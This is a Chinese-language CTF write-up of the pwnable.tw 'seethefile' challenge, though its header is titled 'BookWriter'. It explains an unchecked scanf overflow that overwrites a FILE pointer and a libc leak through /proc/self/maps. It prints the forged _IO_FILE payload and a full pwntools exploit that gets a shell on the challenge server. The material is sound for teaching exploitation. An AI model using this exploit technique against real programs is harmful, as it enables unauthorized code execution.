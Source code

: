 ```yaml
---
title: 和媳妇一起学Pwn 之 BookWriter
date: 2020-04-03 00:00:00
categories:
- CTF/Pwn
tags: pwnable.tw  _IO_FILE
---
```


> 漏洞点是：存在一个位于bss段的变量输入溢出，溢出后可以覆盖一个IO_FILE结构体的指针。

> 利用方式：利用题目读取文件的功能通过linux的proc伪文件系统泄露libc基址，然后溢出IO_FILE的指针指向一个伪造IO_FILE结构体，并且根据libc基址伪造虚表。当伪造的结构体被fclose使用时，虚函数将被调用，即可getshell。

- 题目地址：[https://pwnable.tw/challenge/#9](https://pwnable.tw/challenge/#9)

## 检查

```bash
➜  file seethefile
seethefile: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=04e6f2f8c85fca448d351ef752ff295581c2650d, not stripped
➜  checksec seethefile
[*] '/Users/Desktop/pwn/pwnable/seethefile/seethefile'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序，除了NX，剩下的保护没开，没去符号表。

## 漏洞点

程序本身的功能是可以打开，读取，关闭文件，还可以将读取的内容打印出来。不过一次只能读取0x18F个字节，而且不能读flag文件。输入文件名和读取文件内容的地方都做好了边界控制，没有什么问题，不过在退出时：

```c
case 5:
printf("Leave your name :");
__isoc99_scanf("%s", &name);
```

这里没有检查输入name的长度，导致可以覆盖name后面的内存。位于bss段的name后面就是那个文件的fp指针，之后又去调用了fclose并传入了这个fp指针，这里就是漏洞点所在。

## `_IO_FILE`

在利用之前，我们先来学习`_IO_FILE`。不过在学`IO_FILE`之前，我们先了解两个函数`open`和`fopen`：

- [总结open与fopen的区别](https://www.jianshu.com/p/5bccc0a0bbbf)
- [C fopen vs open](https://stackoverflow.com/questions/1658476/c-fopen-vs-open)
- [Linux（C/C++）下的文件操作open、fopen与freopen](https://blog.csdn.net/qq_38374864/article/details/72903920)
- [C语言中open与fopen的的解释和区别](https://blog.csdn.net/LEON1741/article/details/78091974)
- [C语言中文件描述符和文件指针的本质区别](https://blog.csdn.net/xzhKSD123/article/details/96167556)

|          | 文件描述符（低级IO）  | 文件流/文件指针（高级IO）       |
| -------- | --------------------- | ------------------------------- |
| 标准     | POSIX                 | ANSI C                          |
| 层次     | 系统调用                | libc                            |
| 数据类型 | int                   | FILE *                          |
| 函数     | open/close/read/write | fopen/fclose/fread/fwrite/fseek |

所以要学习的`_IO_FILE`就是fopen这套libc实现的高级IO操作相关的一个结构体`_IO`是值其所在是libc的IO库中，所以说的FILE结构体值指的就是`_IO_FILE`，在stdio.h的头文件中有typedef：

> /usr/include/stdio.h

```c
struct _IO_FILE;
typedef struct _IO_FILE FILE;
typedef struct _IO_FILE __FILE;
extern struct _IO_FILE *stdin;		/* Standard input stream.  */
extern struct _IO_FILE *stdout;		/* Standard output stream.  */
extern struct _IO_FILE *stderr;		/* Standard error output stream.  */
```

至此我们可以开心的学习`_IO_FILE`了

- [FILE Structure Description](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/introduction-zh/)
- [_IO_FILE利用思路总结](https://b0ldfrev.gitbook.io/note/pwn/iofile-li-yong-si-lu-zong-jie)
- [_IO_FILE部分源码分析及利用](http://dittozzz.top/2019/04/24/IO-FILE%E9%83%A8%E5%88%86%E6%BA%90%E7%A0%81%E5%88%86%E6%9E%90%E5%8F%8A%E5%88%A9%E7%94%A8/)
- [IO FILE 之劫持vtable及FSOP](http://blog.eonew.cn/archives/1103)
- [IO file结构在pwn中的妙用](https://xz.aliyun.com/t/6567)
- [IO FILE 学习笔记](https://veritas501.space/2017/12/13/IO%20FILE%20%E5%AD%A6%E4%B9%A0%E7%AC%94%E8%AE%B0/)

一句话概括为啥要研究`_IO_FILE`：**libc实现的文件流机制中存在可以被改写的函数指针**

## 利用

所以本题的思路很清晰了，通过改写bss段的FILE指针到我们伪造的结构体上，并布置好虚表即可getshell。

### 泄露libc

本题泄露libc的基址实在是没啥技术含量，因为直接能读文件，所以直接利用linux的proc伪文件系统读取`/proc/self/maps`即可获得libc基址，不过本地和远程的布局可能有些许的不同，因为一次最多只能读取0x18f个字节，所以可能需要读两次才能读到libc的基址。

### 伪造IO_FILE结构体及虚表

因为在退出的时候，我们可以无限写bss段往后的内存，所以我们把构造的fake FILE也放到这里，并且bss段地址是已知的，这样也才能提前计算fake FILE的地址，以便覆盖程序的fp指针。并且本题给的libc版本为2.23,libc2.24以下的版本没有对虚表进行检查，所以直接伪造即可。当然就算存在检查也是可以想办法绕过的。


```python
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3
```

### 完整exp

```python
from pwn import *

context(arch='i386',os='linux',log_level='debug')
myelf  = ELF("./seethefile")
libc   = ELF("./libc_32.so.6")
io     = remote("chall.pwnable.tw",10200)

sla          = lambda delim,data       :io.sendlineafter(delim, data) 
openfile     = lambda name :  (sla("choice :","1"),sla("see :",name))
readfile     = lambda      :  (sla("choice :","2"))
showfile     = lambda      :  (sla("choice :","3"))
leave        = lambda name :  (sla("choice :","5"),sla("ame :",name))

# leak libc
openfile("/proc/self/maps")
readfile()
showfile()
io.recvuntil("[heap]\n")
libc_addr = int(io.recv(8),16)+0x1000
system_addr = libc_addr +libc.symbols['system']

# make fake file
fakeFILE = 0x0804B284
payload  = 'a'*0x20
payload += p32(fakeFILE)
payload += p32(0xffffdfff)
payload += ";$0"+'\x00'*0x8d
payload += p32(fakeFILE+0x98)
payload += p32(system_addr)*3

# getshell
leave(payload)
io.interactive()
```

## 参考

- [pwnable.tw系列](https://n0va-scy.github.io/2019/07/03/pwnable.tw/)
